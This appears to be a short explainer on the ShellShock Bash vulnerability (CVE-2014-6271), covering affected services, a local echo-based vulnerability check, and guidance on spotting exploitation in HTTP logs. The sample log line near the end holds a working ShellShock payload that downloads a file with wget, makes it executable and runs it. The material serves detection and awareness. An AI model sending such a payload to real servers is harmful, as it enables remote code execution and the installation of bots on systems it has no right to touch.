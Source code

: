## Introduction

A recent study from July 2021 shows that the security vulnerability called **ShellShock** CVE-2014-6271 discovered in 2014 would still be present on a large number of servers in the world although patchs have been created since several years. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue.

**Shellshock**, also known as **Bashdoor**, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the **ForceCommand** feature in **OpenSSH** sshd, the **mod\_cgi** and **mod\_cgid** modules in the **Apache HTTP Server**, scripts executed by unspecified **DHCP clients**, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka “ShellShock”.

* * *

## Anatomy Of the Attack

**Test your environment**

Just run this bash script in your system and you will see if you are vulnerable or not:

```html
env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION()=() { :;}; echo Bash is vulnerable!' bash -c "echo Bash Test"
```

### Is there threat to online banking?

This vulnerability is being actively exploited to target servers hosted on the Internet. Even some workstations running **Linux** and **OSX** are vulnerable, but an attacker would still need to find an attack vector that will work remotely against your desktop. Proof of concept targeting \*nix workstation dhcp clients has been released, but most workstation dhcp process policies prevent actions from this sort of exploit by default.

Exploit attempts that we observed are targeting server vulnerabilities and downloading **DDoS bots** for further **DDoS attacks**. It is likely that servers hosting PII and handling sensitive merchant data are being attacked as well, but we have not yet observed it. There are merchants that unfortunately do not patch quickly.

### Can I detect if someone has exploited this against me?

We would recommend reviewing your HTTP logs and check if there is anything suspicious. An example of a malicious pattern:

```html
192.168.1.1 – – [25/Sep/2014:14:00:00 +0000] "GET / HTTP/1.0"  400 349 "() { :; }; wget -O /tmp/besh http://192.168.1.1/filename; chmod 777 /tmp/besh; /tmp/besh;"
```

